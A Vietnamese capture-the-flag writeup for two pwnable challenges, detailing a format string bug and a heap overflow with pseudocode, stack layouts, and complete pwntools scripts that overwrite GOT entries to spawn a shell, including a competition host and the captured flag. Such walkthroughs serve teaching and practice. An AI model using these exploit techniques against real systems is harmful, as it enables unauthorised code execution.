<style>
img {
    box-shadow: rgba(0, 0, 0, 0.35) 0px 5px 15px;
    border-radius: 6px;
    display: block; 
    margin: 0 auto 15px;
}
</style>

<div style="text-align: center;">
    <figure style="display: inline-block; text-align: center;">
        
        <figcaption>Hưởng ứng Công ước Hà Nội 2025</figcaption>
    </figure>
</div>

Dưới đây là toàn bộ writeup “có tâm” cho tất cả các bài pwnable được mình giải trong/sau cuộc thi. Các challenge khác mình sẽ cập nhật thêm nếu có thời gian làm thử. 

> Writeup “có tâm” nghĩa là mình sẽ trình bày chi tiết nhất từng thao tác xử lý bài toán, từ việc kiểm tra thông tin file, rename các biến, tạo struct, … Nếu các bạn đã có kinh nghiệm, vui lòng xem #Final script để đỡ tốn thời gian.
> 

Mình nghĩ 4 bài pwnable hoàn toàn giải được trong 8 tiếng, nhưng 3 bài đầu tiên có số solve khá nhiều: 80 - 54 - 33 thì mình cũng hơi bất ngờ. Hoặc là có gian lận hoặc là các bạn sinh viên chơi pwn càng ngày càng khủng (hy vọng là như vậy). Dù sao thì mình cũng chỉ quan tâm tới bản thân, các thí sinh khác chơi như nào thì đó là lựa chọn riêng của họ 😑

## pwn/RacehorseS



### 0x00 TL;DR

- Hàm `main()` có Format String Bug (FSB) → Arbitrary Read/Write (AAR/AAW).
- AAW ghi đè `exit@got` thành `main_addr` để chương trình luôn được thực thi mà không bị gọi `exit`.
- AAR để leak địa chỉ Libc và Stack.
- AAW ghi đè `strlen@got` thành `system_addr`.
- Khi hàm `main()` được gọi lại, `strlen(input)` sẽ trở thành `system("/bin/sh")`.

### 0x01 Building the environment & Patch binary

Build và chạy Docker. Do server dùng `pwn.red/jail:0.3.0` nên port luôn được expose ra `5000`. 

```bash
➜  pwn-RacehorseS docker build . -t racehorses
➜  pwn-RacehorseS docker run -p 5000:5000 --privileged -it racehorses:latest
```

Copy `libc` và `ld` trong Docker ra ngoài local, dùng `pwninit` để patch binary. 

```bash
➜  pwn-RacehorseS cd ./bin
➜  bin docker ps
CONTAINER ID   IMAGE                       COMMAND          CREATED          STATUS          PORTS                                         NAMES
99825ddf5f95   racehorses:latest           "/jail/run"      19 seconds ago   Up 19 seconds   0.0.0.0:5000->5000/tcp, [::]:5000->5000/tcp   sad_pare
➜  bin docker cp 99825ddf5f95:/srv/usr/lib/x86_64-linux-gnu/libc.so.6 .
➜  bin docker cp 99825ddf5f95:/srv/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 .
➜  bin pwninit
bin: ./horse_say
libc: ./libc.so.6
ld: ./ld-linux-x86-64.so.2

copying ./horse_say to ./horse_say_patched
running patchelf on ./horse_say_patched
```

### 0x02 Overview

Binary không bị strip, lớp bảo vệ PIE tắt, Partial RelRO nên chúng ta có thể overwrite bảng GOT. 

```bash
➜  bin file horse_say
horse_say: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7b5c31c696700b3cb0d434cd475b001e860e26c4, for GNU/Linux 3.2.0, not stripped
gef➤  checksec
[+] checksec for '/home/shilong/ctfs/ascis/pwn-RacehorseS/bin/horse_say'
Canary                        : ✓
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial

```

Chương trình cho phép nhập input, in ra màn hình chuỗi vừa nhập và kết thúc. 

```bash
➜  bin ./horse_say
Say something: abcdef
 ________
< abcdef >
--------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||-----||
                ||     ||
```

Mã giả hàm `main()` được tạo bởi IDA như sau

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 i; // [rsp+10h] [rbp-430h]
  unsigned __int64 j; // [rsp+18h] [rbp-428h]
  size_t v6; // [rsp+20h] [rbp-420h]
  size_t v7; // [rsp+28h] [rbp-418h]
  char s[1032]; // [rsp+30h] [rbp-410h] BYREF
  unsigned __int64 v9; // [rsp+438h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  setup(argc, argv, envp);
  memset(s, 0, 1024u);
  printf("Say something: ");
  if ( fgets(s, 1024, stdin) )
  {
    v6 = strlen(s);
    if ( v6 && s[v6 - 1] == 10 )
      s[v6 - 1] = 0;
    v7 = strlen(s);
    if ( !v7 )
      strcpy(s, "(silence)");
    putchar(32);
    for ( i = 0; i < v7 + 2; ++i )
      putchar(95);
    printf("\n< ");
    printf(s);
    puts(" >");
    for ( j = 0; j < v7 + 2; ++j )
      putchar(45);
    putchar(10);
    puts("        \\   ^__^");
    puts("         \\  (oo)\\_______");
    puts("            (__)\\       )\\/\\");
    puts("                ||-----||");
    puts("                ||     ||");
    puts(&byte_402096);
    exit(0);
  }
  return 0;
}
```

### 0x03 Format String Bug

Chương trình có 1 bug duy nhất FSB nằm ở dòng code 

```c
printf(s);
```

### 0x04 Building the payload

Ta có thể thấy trước khi chương trình kết thúc `return 0`, nó gọi `exit(0)`, vì vậy ta chỉ khai thác được bug FSB một lần duy nhất. 

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
		[...]
    printf(s);
		[...]
    exit(0);
  }
  return 0;
}
```

Nhiệm vụ trước tiên là phải làm cho chương trình được thực thi liên tục mà không bị gọi `exit()`. Do PIE tắt nên địa chỉ hàm `main()` tĩnh (không thay đổi), ta sẽ dùng FSB để ghi đè `exit@got` thành `main_addr`. Khi đó chương trình sẽ liên tục được lặp lại. 

Kế hoạch khai thác tiếp theo được thiết kế như sau:  

1. AAR để leak Libc và Stack. 
2. AAW ghi đè `strlen@got` thành `system_addr`. 

#### Stage 1. Overwrite exit@got

```python
main_addr = elf.symbols["main"]
exit_got = elf.got["exit"]

payload1 = f"%{main_addr & 0xffff}c%16$hn".encode().ljust(0x20, b"\x00") + p64(exit_got)
p.sendlineafter(b"something: ", payload1)
```

Stack layout của sau khi nhập `payload1` phía trên như sau 



Giải thích ý nghĩa payload: 

- `rsp+0x30` chứa nội dung payload,  `rsp+0x50` chứa `exit@got` là địa chỉ của nội dung cần overwrite. Ta thấy chỉ cần overwrite 2 byte cuối `10c0` thành `12d9`, vậy nên sẽ dùng format string `$hn`.
- Tính từ đỉnh stack `rsp` (index = 1), địa chỉ `rsp+0x50` nằm ở index = 0x50 / 8 + 1= 11. Đối với binary 64 bit, để ghi giá trị cho index `i`, ta sẽ dùng `%{i+5}` do phải ghi cho 5 thanh ghi mặc định trước đã.
    
    → Dùng `%{11+5}` = `%16` để ghi vào địa chỉ `rsp+0x50`. 
    

Kết quả thu được 

```bash
[0x404048] exit@GLIBC_2.2.5  →  0x4012d9 (main)
gef➤  p/x &main
$6 = 0x4012d9
```

#### Stage 2. Leak Libc & Stack address

```python
payload2 = b"%6$p|%142$p|"
p.sendlineafter(b"something: ", payload2)
# 0x155555506643|0x7fffffffdfc0'

p.recvuntil(b"< ")

# p.recvuntil(b"|")
leak_libc_addr = int(p.recvuntil(b"|")[:-1], 16)
libc.address = leak_libc_addr - 0x204643 
log.info(f"libc.address: {hex(libc.address)}")

leak_stack_addr = int(p.recvuntil(b"|")[:-1], 16)
log.info(f"leak_stack_addr: {hex(leak_stack_addr)}")
```

Stack layout của `payload2` như sau:

```bash
gef➤  tel
0x00007fffffffd730│+0x0000: 0x0000155555506643  →  0x507710000000005f ("_"?)     ← $rsp
[...]
0x00007fffffffdb70│+0x0440: 0x00007fffffffdfc0  →  0x00007fffffffe060  →  0x00007fffffffe0c0  →  0x0000000000000000      ← $rbp
```

Để leak giá trị trên stack mình dùng format string `$p`. Ở vị trí: 

- index = 1 chứa địa chỉ Libc.
- index = 137 chứa địa chỉ Stack.

→ Dùng `%{1+5}p|{137+5}p` = `%6p|%142p` (Dấu `|` chỉ để ngăn cách các giá trị). 

#### Stage 3. Overwrite strlen@got

```python
system_addr = libc.symbols["system"]
strlen_addr = libc.symbols["strlen"]

log.info(f"system_addr: {hex(system_addr)}")    
log.info(f"strlen_addr: {hex(strlen_addr)}")      

value32 = system_addr & 0xffffffff
low16   = value32 & 0xffff
high16  = (value32 >> 16) & 0xffff

log.info(f"value32: {hex(value32)}")    
log.info(f"low16: {hex(low16)}")    
log.info(f"high16: {hex(high16)}")    

pack = {
    low16: strlen_got,
    high16: strlen_got + 2,
}

packed = sorted(pack)

payload3 = f'%{packed[0]}c%20$hn'.encode()
payload3 += f'%{packed[1]-packed[0]}c%21$hn'.encode()
payload3 = payload3.ljust(0x40, b"K")
payload3 += flat(
    pack[packed[0]],
    pack[packed[1]],
) 

p.sendlineafter(b"something: ", payload3)
```

Địa chỉ các hàm Libc thu được như sau

```bash
[*] libc.address: 0x155555302000
[*] leak_stack_addr: 0x7fffffffdfc0
[*] system_addr: 0x15555535a750
[*] strlen_addr: 0x1555553b6cc0
[*] value32: 0x5535a750
[*] low16: 0xa750
[*] high16: 0x5535
```

Ta thấy phải ghi tổng cộng 4 byte cho `strlen_addr` từ `553b6cc0` → `5535a750`. Mình sẽ chia nhỏ làm 2 phần để ghi `0xa750` và `0x5535` bởi vì nếu khi 1 lúc 4 byte `0x5535a750` thì chương trình sẽ phải chạy rất lâu. 

Do `$hn` sẽ ghi số byte được in ra được trước đó vào địa chỉ cụ thể. Vậy nên mình phải sort 2 giá trị trên để xem phải ghi giá trị nào trước. 

- Lần đầu sẽ ghi 0x5535 byte.
- Lần sau sẽ ghi:  0xa750 - 0x5535 = 0x521b byte.

Stack layout sau khi gửi `payload3` như sau



Phân tích payload: 

- Do 0x5535 < 0xa750 nên sẽ ghi 0x5535 (21813) byte vào `strlen@got + 2` trước.
- Ghi số byte còn lại: 0xa750 - 0x5535 = 0x521b (21019) byte vào `strlen@got` sau.

### 0x05 Final script

```python
#!/usr/bin/env python3

from pwn import *
import time
import subprocess

elf = ELF("./horse_say_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.update(arch='amd64', os='linux', log_level='debug', terminal='cmd.exe /c start wsl'.split(), binary=elf)

p = process(elf.path)
p = remote('pwn1.cscv.vn', 6789)
# p = remote('0.0.0.0', 5000)

p.recvuntil(b"work: ") 
cmd = p.recvline().decode().strip()

res = subprocess.run(cmd, shell=True, check=True,
                        stdout=subprocess.PIPE, stderr=subprocess.PIPE,
                        text=True, timeout=30)
print("stdout:\n", res.stdout)
p.sendlineafter(b"solution: ", res.stdout.strip().encode())

def GDB():
    gdb.attach(p, gdbscript='''
        break *0x40134F
        break *0x40145A
        # exit
        break *0x40150A
        # ret
        break *0x401514
        continue
    ''')

    pause()

# Good Luck Pwning ^^

main_addr = elf.symbols["main"]
exit_got = elf.got["exit"]
puts_got = elf.got["puts"]
strlen_got = elf.got["strlen"]

payload1 = f"%{main_addr & 0xffff}c%16$hn".encode().ljust(0x20, b"\x00") + p64(exit_got)
p.sendlineafter(b"something: ", payload1)

time.sleep(0.1)

# GDB()

payload2 = b"%6$p|%142$p|"
p.sendlineafter(b"something: ", payload2)
# 0x155555506643|0x7fffffffdfc0'

p.recvuntil(b"< ")

leak_libc_addr = int(p.recvuntil(b"|")[:-1], 16)
libc.address = leak_libc_addr - 0x204643 
log.info(f"libc.address: {hex(libc.address)}")

leak_stack_addr = int(p.recvuntil(b"|")[:-1], 16)
log.info(f"leak_stack_addr: {hex(leak_stack_addr)}")

system_addr = libc.symbols["system"]
strlen_addr = libc.symbols["strlen"]

log.info(f"system_addr: {hex(system_addr)}")    
log.info(f"strlen_addr: {hex(strlen_addr)}")    

value32 = system_addr & 0xffffffff
low16   = value32 & 0xffff
high16  = (value32 >> 16) & 0xffff

log.info(f"value32: {hex(value32)}")    
log.info(f"low16: {hex(low16)}")    
log.info(f"high16: {hex(high16)}")    

pack = {
    low16: strlen_got,
    high16: strlen_got + 2,
}

packed = sorted(pack)

payload3 = f'%{packed[0]}c%20$hn'.encode()
payload3 += f'%{packed[1]-packed[0]}c%21$hn'.encode()
payload3 = payload3.ljust(0x40, b"K")
payload3 += flat(
    pack[packed[0]],
    pack[packed[1]],
) 

p.sendlineafter(b"something: ", payload3)

time.sleep(0.1)
p.sendlineafter(b"something: ", b"/bin/sh\x00")

p.interactive()
# CSCV2025{k1m1_n0_4184_64_2ukyun_d0kyun_h45h1r1d35h1}
```

## pwn/Heap NoteS



### 0x00 TL;DR

- Bài heap Libc 2.39, có các chức năng: `create`, `read`, `write`.
- Bug HOF kết hợp với cách duyệt note dẫn tới trả về địa chỉ tùy ý → AAR/AAW.
- AAR → leak Libc, AAW → overwrite GOT.

### 0x01 Building the environment & Patch binary

Build và chạy Docker 

```bash
➜  heapnote docker build . -t heapnotes
➜  heapnote docker run -p 1337:1337 --privileged -it heapnotes
```

Copy file `libc` và `ld` trong Docker ra local rồi patch binary bằng `pwninit`. 

```bash
➜  challenge docker ps
CONTAINER ID   IMAGE                       COMMAND             CREATED          STATUS          PORTS                                         NAMES
8712e2cb2549   heapnotes                   "/bin/sh /run.sh"   47 seconds ago   Up 47 seconds   0.0.0.0:1337->1337/tcp, [::]:1337->1337/tcp   condescending_bassi
➜  challenge docker cp 8712e2cb2549:/usr/lib/x86_64-linux-gnu/libc.so.6 .
➜  challenge docker cp 8712e2cb2549:/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 .
➜  challenge pwninit
bin: ./challenge_patched
libc: ./libc.so.6
ld: ./ld-linux-x86-64.so.2

copying ./challenge_patched to ./challenge_patched_patched
running patchelf on ./challenge_patched_patched
```

### 0x02 Overview

Một bài heap phiên bản Libc 2.39 với các chức năng cơ bản: `create`, `read`, `write`.  PIE tắt và RelRO partial nên có thể ghi đè bảng GOT. 

```bash
➜  challenge file challenge_patched
challenge_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=bed4c09ebd8a7a1951c09067975d3c81c2ed4c93, not stripped
gef➤  checksec
[+] checksec for '/home/ducdatdau/ctfs/2025/ascis/pwn-heapnote/heapnote/challenge/challenge_patched'
Canary                        : ✓ (value: 0x4dc21d59748d6b00)
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
➜  challenge ./ld-linux-x86-64.so.2 ./libc.so.6
GNU C Library (Ubuntu GLIBC 2.39-0ubuntu8.6) stable release version 2.39.
Copyright (C) 2024 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 13.3.0.
libc ABIs: UNIQUE IFUNC ABSOLUTE
Minimum supported kernel: 3.2.0
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```

Sau khi phân tích qua mã giả chương trình, ta biết được mỗi lần `create_note()` sẽ allocate ra một chunk có size 0x30. Chức năng `read_note()` và `write_note()` cho phép đọc/ghi nội dung của chunk. 

Để dễ phân tích, mình đã tạo một struct mới cho chunk với cấu trúc như sau: 

```c
struct note {
    unsigned int index; // 4 bytes
    char padding[4];    // 4 bytes
    struct note *next;  // 8 bytes 
    char data[32];      // 32 bytes
};
```

> Việc tạo struct cho các bài heap luôn được khuyến khích làm đầu tiên. Nếu chưa đủ kinh nghiệm để phân tích thành phần struct, các bạn có thể nhờ AI làm hộ.
> 

Vào tab Local Types → right click vào bảng list struct → Add type …  


Ép kiểu cho `g_note` từ `__int64` thành `note*` (ấn phím y) 

Mã giả hàm `main()` được IDA tạo ra như sau

```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  int choice; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 stack_canary; // [rsp+8h] [rbp-8h]

  stack_canary = __readfsqword(0x28u);
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  while ( 1 )
  {
    menu();
    __isoc99_scanf("%d%*c", &choice);
    if ( choice == 4 )
      exit(0);
    if ( choice > 4 )
    {
LABEL_12:
      puts("Wrong choice");
    }
    else
    {
      switch ( choice )
      {
        case 3:
          write_note();
          break;
        case 1:
          create_note();
          break;
        case 2:
          read_note();
          break;
        default:
          goto LABEL_12;
      }
    }
  }
}
```

Mã giả hàm `create_note()` 

```c
int create_note()
{
  note *curr_note; // [rsp+0h] [rbp-10h]
  struct note *new_note; // [rsp+8h] [rbp-8h]

  if ( g_note )
  {
    for ( curr_note = g_note; curr_note->next; curr_note = curr_note->next )
      ;
    new_note = (struct note *)malloc(0x30u);
    new_note->index = curr_note->index + 1;
    new_note->next = 0;
    curr_note->next = new_note;
    return printf("Note with index %u created\n", new_note->index);
  }
  else
  {
    g_note = (note *)malloc(0x30u);
    g_note->index = 0;
    g_note->next = 0;
    return puts("Note with index 0 created");
  }
}
```

Mã giả hàm `read_note()` 

```c
unsigned __int64 read_note()
{
  int idx; // [rsp+Ch] [rbp-14h] BYREF
  note *curr_note; // [rsp+10h] [rbp-10h]
  unsigned __int64 stack_canary; // [rsp+18h] [rbp-8h]

  stack_canary = __readfsqword(0x28u);
  if ( g_note )
  {
    idx = 0;
    printf("Index: ");
    __isoc99_scanf("%u%*c", &idx);
    for ( curr_note = g_note; curr_note->index != idx; curr_note = curr_note->next )
    {
      if ( !curr_note->next )
        return stack_canary - __readfsqword(0x28u);
    }
    puts(curr_note->data);
  }
  return stack_canary - __readfsqword(0x28u);
}
```

Mã giả hàm `write_note()`

```c
unsigned __int64 write_note()
{
  int idx; // [rsp+Ch] [rbp-14h] BYREF
  note *curr_note; // [rsp+10h] [rbp-10h]
  unsigned __int64 stack_canary; // [rsp+18h] [rbp-8h]

  stack_canary = __readfsqword(0x28u);
  if ( g_note )
  {
    idx = 0;
    printf("Index: ");
    __isoc99_scanf("%u%*c", &idx);
    for ( curr_note = g_note; curr_note->index != idx; curr_note = curr_note->next )
    {
      if ( !curr_note->next )
        return stack_canary - __readfsqword(0x28u);
    }
    gets(curr_note->data);
  }
  return stack_canary - __readfsqword(0x28u);
}
```

### 0x03 Heap Overflow Bug

Dễ thấy hàm `write_note()` có bug Heap Overflow (HOF)

```c
gets(curr_note->data);
```

Từ bug HOF, ta có thể ghi đè được toàn bộ nội dung của các chunk liền kề. Logic của đoạn code tìm `chunk[idx]` rất đơn giản, nó sẽ so sánh `curr_note->index` với `idx` vừa được nhập vào, nếu khác nhau sẽ chuyển sang chunk kế tiếp. Quá trình tìm kiếm sẽ kết thúc khi tìm tới chunk cuối cùng, nghĩa là `curr_note->next = NULL`. 

```c
printf("Index: ");
__isoc99_scanf("%u%*c", &idx);
for ( curr_note = g_note; curr_note->index != idx; curr_note = curr_note->next )
{
  if ( !curr_note->next )
    return stack_canary - __readfsqword(0x28u);
}
```

Do không check bound của `idx` kết hợp với bug HOF, ta có thể tạo ra được fake chunk để đưa được `curr_note` về một địa chỉ tùy ý dẫn tới AAR/AAW. Ví dụ: 

- Chunk A: `idx` = 0, `next` = &B
- Chunk B: `idx` = 1, `next` = &Fake
- Chunk Fake: `idx` = 0xF

Nếu nhập `idx` = 0xF, sau vòng lặp trên sẽ trả về cho ta `curr_note` = &Fake, khi đó ta có thể đọc ghi tùy ý ở địa chỉ này. 

### 0x04 Building the payload

Với AAR/AAW, kế hoạch khai thác sẽ như sau:

1. Dùng AAR để leak địa chỉ Libc. 
2. Dùng AAW để overwrite `gets@got` thành `system_addr`. 

#### Stage 1: Leak Libc

Mình sẽ leak Libc ở địa chỉ 0x404018. Do `chunk→data` nằm ở &Chunk + 0x10 nên mình sẽ đưa `curr_note` trỏ về 0x404008 bằng cách gọi `idx` = 0x401040. 

```bash
0x404008 <__stack_chk_fail@got.plt>:    0x0000000000401040      0x0000155555391750
0x404018 <printf@got.plt>:              0x0000155555362100      0x0000000000401070
```

Vấn đề xảy ra đó là byte đầu tiên của `chunk→data` là `\x00` (địa chỉ 0x404018) nên các byte còn lại sẽ không được in ra. Để giải quyết vấn đề này, mình đưa `curr_note` trỏ về 0x404009, khi đó `idx` = 0x4010. 

```python
__stack_chk_fail_got = elf.got['__stack_chk_fail']
gets_got = elf.got['gets']

create()    # 0
create()    # 1

payload1 = b'A' * 0x20 + p64(0) + p64(0x41) + p64(0x1) + p64(__stack_chk_fail_got + 1)
write(0, payload1)

printf_leak = (u64(read(0x4010).ljust(8,b'\x00'))) << 8 
libc.address = printf_leak - libc.sym['printf']
log.info(f'printf_leak: {hex(printf_leak)}')
log.info(f'libc_address: {hex(libc.address)}')
```

#### Stage 2: Overwrite gets@got

Tính toán tương tự như Stage 1, ta sẽ overwrite `gets@got` thành `system_addr`, đồng thời đưa chuỗi `/bin/sh` lên nội dung của chunk 0. Khi chọn `write_note()` cho chunk 0, `gets(input)` = `system("/bin/sh")`. 

```python
system_addr = libc.sym["system"]
log.info(f"system_addr: {hex(system_addr)}")

payload2 = b"/bin/sh\x00" + p64(0) * 4 + p64(0x41) + p64(0x1) + p64(gets_got - 0x10)
write(0, payload2)

# overwrite gets@got -> system 
idx_gets_sub_0x10 = (libc.symbols["setbuf"]) & 0xffffffff # idx: 4 bytes 
write(idx_gets_sub_0x10, p64(system_addr))
```

### 0x05 Final script

```python
#!/usr/bin/env python3

from pwn import *
import time

elf = ELF("./challenge_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.update(arch="amd64", os="linux", log_level="debug", terminal=["wt.exe", "-p", "uterm", "--", "wsl.exe", "-e"], binary=elf)

p = process(elf.path)
# p = remote("pwn2.cscv.vn", 3333)

def GDB():
    gdb.attach(p, gdbscript="""
        b* 0x4012FA
        # write
        b *0x40148E
        continue
    """)
    pause()

# Good Luck Pwning ^^

